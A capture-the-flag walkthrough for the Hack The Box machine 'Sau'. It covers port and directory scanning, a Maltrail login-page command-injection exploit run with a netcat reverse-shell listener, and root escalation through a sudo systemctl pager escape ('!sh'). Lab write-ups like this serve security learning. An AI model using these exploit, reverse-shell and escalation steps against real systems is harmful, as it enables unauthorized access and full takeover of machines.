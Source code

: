 # Sau

######  Easy - x1foideo


## Initial Recon 

#### Hosts

```bash
sudo nano /etc/hosts
```
```
<IP> <Host Name>
```


#### Nmap

```bash
sudo nmap -sS -sV -p- <IP> -o sau_htb
```
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
```


#### Web Enumeration

```bash
gobuster dir -e -u http://sau.htb:55555/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -b 400,401,402,403,404 -t 100
```
```
http://sau.htb:55555/ace                  (Status: 200) [Size: 7091]
http://sau.htb:55555/password             (Status: 200) [Size: 0]
http://sau.htb:55555/test                 (Status: 200) [Size: 0]
http://sau.htb:55555/web                  (Status: 200) [Size: 8700]
```


## Solution

#### Gathering Info

Surfing the internet we notice there are two possible Vulnerabilities for this machine.

1) Request-Basket Vuln (CVE-2023-27163) --> **SSRF**
   *http://sau.htb:55555*
2) Maltrail Vuln --> **RCE**
   *http://sau.htb:55555/ace*
   

What we are going to use is the *Maltrail Vuln*.

> The vulnerability exists in the login page and can be exploited via the `username` parameter


**Local Host**

In a terminal Window run

```bash
nc -nlvp 9999
```

In a terminal Window run the exploit

```bash
python3 exploit.py <Local IP> <PORT> http://sau.htb:55555/ace/login
```


#### User Flag

After getting the RCE, move to /home/puma

Get *User Flag*


#### Root Flag

First of all let's check if we can run some commands as sudo

```bash
sudo -l
```
```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

As showed we are able to run as sudo

```bash
sudo /usr/bin/systemctl status trail.service
```

Checking on *GTFOBins* we get that

> This invokes the default pager, which is likely to be [`less`](https://gtfobins.github.io/gtfobins/less/), other functions may apply.
> 
> !sh

So after running this command we are able to move to /root

Get *Root Flag*


#nmap #enumeration #gobuster #blackliststatuscode #sudo #gtfobins #reverseshell #maltrail #requestbasket #systemctl
